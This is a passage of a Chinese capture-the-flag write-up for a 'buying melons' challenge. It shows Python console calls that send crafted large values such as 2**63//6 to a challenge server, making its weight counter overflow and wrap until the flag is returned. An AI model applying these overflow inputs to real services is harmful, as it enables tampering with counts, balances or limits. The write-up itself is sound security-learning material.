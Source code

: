 ```python
>>> await melon(2**63//6)
<re.Match object; span=(1193, 1227), match='电子秤上已有 9223372036854775806/20 斤的瓜。'>

>>> await melon(1)
失败！
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 9.2233720368548E+18/20 斤的瓜。</p>\n ...'
```

又变成浮点数了。清空后再试：

```python
>>> await melon(2**63//6 + 1)
<re.Match object; span=(1193, 1228), match='电子秤上已有 -9223372036854775808/20 斤的瓜。'>

>>> await melon(2**63//6)
<re.Match object; span=(1193, 1210), match='电子秤上已有 -2/20 斤的瓜。'>
```

好！终于得到了一个绝对值很小的负整数。

```python
>>> await melon(1)
<re.Match object; span=(1193, 1209), match='电子秤上已有 4/20 斤的瓜。'>
```

OHHHHHHH!! 小正整数，它出现了！

```python
>>> await melon(2**63//6 + 1)
<re.Match object; span=(1193, 1228), match='电子秤上已有 -9223372036854775804/20 斤的瓜。'>

>>> await melon(2**63//6)
<re.Match object; span=(1193, 1209), match='电子秤上已有 2/20 斤的瓜。'>

>>> await melon(3)
<re.Match object; span=(1397, 1414), match='电子秤上已有 20/20 斤的瓜。'>

>>> await client.get("http://202.38.93.111:15003")
<Response [200 OK]>
>>> _.text
'... 恭喜你逃过一劫！The flag is: <code>flag{HUAQIANG!HUAQIANG!_92757cd024}</code>\n  ...'
```

成功了！

后面我又研究了研究，大概摸到了它的规律：在每次请求中，数字是可以在溢出时发生 [环绕 (wrapping](https://en.wikipedia.org/wiki/Integer_overflow)，即溢出超过最大值以后，反而变成最小值的现象) 的，但是斤数不能太接近 2^64 或者超过 2^64。而且，如果提交的斤数与秤上的数字相加后的数字发生溢出，则不会环绕，一旦二者之和的绝对值超过了 2^63，就会变成浮点数。

```python
>>> await melon(2**64//6)
<re.Match object; span=(1193, 1209), match='电子秤上已有 0/20 斤的瓜。'>

>>> await melon(2**64//6 - 2**11//6)
<re.Match object; span=(1193, 1209), match='电子秤上已有 0/20 斤的瓜。'>

>>> await melon(2**64//6 - 2**12//6)
<re.Match object; span=(1193, 1213), match='电子秤上已有 -4096/20 斤的瓜。'>

>>> await melon(2**63//6 + 1)
<Response [302 Found]>
>>> _.text
'... <p>电子秤上已有 -9.2233720368548E+18/20 斤的瓜。</p>\n ...'
```
